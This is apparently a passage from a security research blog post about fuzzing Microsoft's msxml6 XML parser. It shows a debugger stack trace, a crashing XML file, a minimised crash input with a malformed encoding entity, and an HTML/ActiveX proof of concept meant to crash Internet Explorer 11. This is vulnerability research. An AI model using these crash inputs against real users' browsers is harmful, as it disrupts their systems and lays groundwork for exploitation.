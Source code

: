 ```
0012fc10 6f90508f 030f4f18 0012fc3c 00000000 msxml6!GetAttributeValueCollapsing+0x43 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 771]
0012fc28 6f902d87 00000003 030f4f14 6f9051f4 msxml6!NodeFactory::FindAttributeValue+0x3c (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 743]
0012fc8c 6f8f7f0d 030c5fb0 030c3f20 01570040 msxml6!NodeFactory::CreateNode+0x124 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 444]
0012fd1c 6f8f5042 010c3f20 ffffffff c4fd70d3 msxml6!XMLParser::Run+0x740 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\tokenizer\parser\xmlparser.cxx @ 1165]
0012fd58 6f8f4f93 030c3f20 c4fd7017 00000000 msxml6!Document::run+0x89 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 1494]
0012fd9c 6f90a95b 030ddf58 00000000 00000000 msxml6!Document::_load+0x1f1 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 1012]
0012fdc8 6f8f6c75 037278f0 00000000 c4fd73b3 msxml6!Document::load+0xa5 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 754]
0012fe38 00401d36 00000000 00000008 00000000 msxml6!DOMDocumentWrapper::load+0x1ff (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\om\xmldom.cxx @ 1111]
-- cut --
```

![Running cBugId to triage the crashes..]({{ site.url }}/assets/images/windbg.png)

Let's take a look at one of the crasher:
```
C:\Users\IEUser\Desktop\xml_validate_results\fuzzer01\crashes>type id_000000_00
<?xml version="&a;1.0"?>
<book xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:noNamespaceSchemaLocation="nn.xsd"
      id="bk101">
   <author>Gambardella, Matthew</author>
   <title>XML Developer's Guide</title>
   <genre>Computer</genre>
   <price>44.95</price>
   <publish_date>2000-10-01</publish_date>
   <description>An in-depth look at creating applications with
   XML.</description>
```
As you can see, if we provide some garbage either on the xml version or the encoding, we will get the above crash.
Mitja also minimised the case as seen below:

```
<?xml version='1.0' encoding='&aaa;'?>
```

The whole idea of fuzzing this library was based on finding a vulnerability within Internet Explorer's context and somehow trigger it. After a bit of googling, let's use the following PoC (<b>crashme.html</b>) and see if it will crash IE11:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<script>

var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
xmlDoc.async = false;
xmlDoc.load("crashme.xml");
if (xmlDoc.parseError.errorCode != 0) {
   var myErr = xmlDoc.parseError;
   console.log("You have error " + myErr.reason);
} else {
   console.log(xmlDoc.xml);
}

```